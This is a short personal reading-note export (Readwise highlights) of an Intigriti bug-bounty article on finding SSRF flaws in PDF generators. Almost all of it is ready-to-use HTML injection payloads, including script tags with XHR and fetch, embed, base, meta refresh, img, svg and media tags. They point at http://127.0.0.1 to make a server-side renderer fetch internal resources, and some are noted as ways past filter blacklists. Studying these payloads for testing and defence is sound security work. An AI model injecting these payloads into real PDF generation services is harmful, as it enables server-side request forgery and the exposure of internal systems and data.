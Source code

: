 ```yaml
---
author: blackbird-eu
aliases:
  - "Exploiting PDF Generators: A Complete Guide to Finding SSRF Vulnerabilities in PDF Generators"
tags:
  - readwise/articles
url: https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-pdf-generators-a-complete-guide-to-finding-ssrf-vulnerabilities-in-pdf-generators
date: 2025-02-04
---
```

# Exploiting PDF Generators: A Complete Guide to Finding SSRF Vulnerabilities in PDF Generators

## SSRF payload

In case your script tag got blocked, try one of the following payloads instead to request external content on behalf of your target:
```html
 <!-- Using XHR -->
 <script>var x=new XMLHttpRequest();x.onload=(()=>document.write(this.responseText));x.open('GET','http://127.0.0.1');x.send();</script>
 <!-- Using Fetch -->
 <script>fetch('http://127.0.0.1').then(async r=>document.write(await r.text()))</script>
 <!-- Using embed -->
 <embed src="http://127.0.0.1" />
```
[View Highlight](https://read.readwise.io/read/01jk8rj574cpazjhvk6jpb6xkb)

## Blind SSRF payload
In some cases, full SSRF won't be possible due to aggressive XSS filters for example. In this case, we can still attempt to request external resources on behalf of the server by injecting a blind XSS payload:
```html
 <!-- Using base HTML tag -->
 <base href="http://127.0.0.1" />
 <!-- Loading external stylesheet/script -->
 <link rel="stylesheet" src="http://127.0.0.1" />
 <script src="http://127.0.0.1"></script>
 <!-- Meta-tag to auto-refresh page -->
 <meta http-equiv="refresh" content="0; url=http://127.0.0.1/" />
 <!-- Loading external image -->
 <img src="http://127.0.0.1" />
 <!-- Loading external SVG -->
 <svg src="http://127.0.0.1" />
 <!-- Useful to bypass blacklists -->
 <input type="image" src="http://127.0.0.1" />
 <video src="http://127.0.0.1" />
 <audio src="http://127.0.0.1" />
 <audio><source src="http://127.0.0.1"/></audio>
```
 
[View Highlight](https://read.readwise.io/read/01jk8rjkhvfz1mc3xncfanfk0e)

